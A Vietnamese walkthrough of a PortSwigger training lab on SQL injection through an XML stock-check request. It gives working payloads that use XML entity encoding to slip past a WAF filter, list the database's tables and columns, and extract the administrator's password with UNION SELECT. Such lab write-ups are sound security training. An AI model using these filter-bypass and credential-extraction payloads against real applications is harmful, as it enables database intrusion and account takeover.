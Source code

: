 # [Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Lỗ hổng: Như tên đề bài, bypass qua XML encoding

1. Lượn một vòng quanh mục tiêu, bắt được request gửi xml:
```http
POST /product/stock HTTP/1.1
Host: 0ae800bb043cba73c0a290b200fc0011.web-security-academy.net
...

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
2. Kiểm tra SQLi, html encode các kí tự dẫn tới 'attack detected': 
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 O&#82; 1=1-&#45;</storeId></stockCheck>
```
Kết quả: ![dd37eee36aa924bade5fb8f0c777dbc7.png](../../../../../../_resources/dd37eee36aa924bade5fb8f0c777dbc7.png)
3. Kiểm tra số cột:
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 1;</storeId></stockCheck>
```
=> ok
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 2;</storeId></stockCheck>
```
=> !ok
=> có 1 cột
4. Lấy tên các bảng:
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; TABLE_NAME FROM information_schema.tables;</storeId></stockCheck>
```
![a8cc08ce0cc54bb893f9257937eb63e6.png](../../../../../../_resources/a8cc08ce0cc54bb893f9257937eb63e6.png)
5. Lấy tên các cột trong bảng `users`:
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = &apos;users&apos;</storeId></stockCheck>
```
![2660c3fe32c6a9eea781ed4593d03d9a.png](../../../../../../_resources/2660c3fe32c6a9eea781ed4593d03d9a.png)
6. Lấy mật khẩu của admin:
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; password FROM users WHERE username = &apos;administrator&apos;</storeId></stockCheck>
```
![f1a98191f1ebcfac9e2aa13dd8ba6171.png](../../../../../../_resources/f1a98191f1ebcfac9e2aa13dd8ba6171.png)
7. Đăng nhập tài khoản admin => Lab Solved